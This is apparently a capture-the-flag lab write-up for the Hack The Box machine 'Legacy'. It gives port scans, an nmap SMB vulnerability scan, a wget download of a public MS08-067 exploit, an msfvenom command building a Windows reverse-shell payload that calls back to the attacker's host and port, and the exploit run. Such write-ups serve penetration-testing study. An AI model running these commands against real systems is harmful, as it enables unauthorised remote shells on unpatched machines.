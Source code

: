 ## Legacy

Difficulty: Easy

### User and Root Flag

```
rustscan -a 10.10.10.4 --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/a9d79b6a-6c9a-498c-8450-9f03b30a79a7)

<br>

We can perform a nmap scan searching for smb vulnerabilities since port 139 and 445 are open.

```
nmap -A --script vuln -p445 10.10.10.4 -T4
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/183c9e34-9050-4308-adf1-45c884353879)

<br>

The machine is vulnerable to ms08-067, so we can search an exploit to this vulnerability.

![searchsploit](https://github.com/b1d0ws/OSCP/assets/58514930/02956b72-21ed-4e8b-b40c-88a53f7332ab)

<br>

Edit the script with our desired shellcode and run it. If occurs python problems I just using [this exploit](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py) with python3.

```
wget https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

python3 ms08-067.py 10.10.10.4 6 445
```

![shellcode](https://github.com/b1d0ws/OSCP/assets/58514930/b9024513-fb92-42c6-a56f-94b2aea3e982)

![exploit](https://github.com/b1d0ws/OSCP/assets/58514930/98baf7c6-69b3-4a47-ad6a-9c3581bb0bc4)
